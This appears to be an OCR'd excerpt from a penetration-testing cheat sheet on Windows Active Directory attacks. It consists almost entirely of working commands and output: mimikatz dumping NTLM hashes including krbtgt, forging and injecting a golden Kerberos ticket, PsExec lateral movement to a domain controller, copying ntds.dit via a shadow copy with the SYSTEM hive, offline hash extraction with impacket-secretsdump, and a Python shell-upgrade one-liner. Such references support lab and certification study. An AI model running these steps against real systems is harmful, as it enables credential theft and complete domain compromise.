 `C:\Tools\SysinternalsSuite>PsExec64.exe \\DC1 cmd.exe`

	PsExec v2.4 - Execute processes remotely
	Copyright (C) 2001-2022 Mark Russinovich
	Sysinternals - www.sysinternals.com
	
	Couldn't access DC1:
	Access is denied.
	
	mimikatz # privilege::debug
	mimikatz # lsadump::lsa /patch
	Domain : CORP / S-1-5-21-1987370270-658905905-1781884369
	
	RID  : 000001f4 (500)
	User : Administrator
	LM   :
	NTLM : 2892d26cdf84d7a70e2eb3b9f05c425e
	
	RID  : 000001f5 (501)
	User : Guest
	LM   :
	NTLM :
	
	RID  : 000001f6 (502)
	User : krbtgt
	LM   :
	NTLM : 1693c6cefafffc7af11ef34d1c788f47

.

	mimikatz # kerberos::purge
	mimikatz # kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
	mimikatz # misc::cmd

`C:\Tools\SysinternalsSuite>PsExec.exe \\dc1 cmd.exe`
`C:\Tools\SysinternalsSuite> psexec.exe \\192.168.50.70 cmd.exe
`
<a name="shadow-copies"></a>
## Shadow Copies
> from DC

`C:\Tools>vshadow.exe -nw -p  C:`
`C:\Tools>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak`
`C:\> reg.exe save hklm\system c:\system.bak`
`kali@kali:~$ impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL`

<a name="miscelanea"></a>
# Miscelanea
<a name="linux-spawning-shell"></a>
## Linux spawning shell
`$ python3 -c 'import pty; pty.spawn("/bin/bash")'`
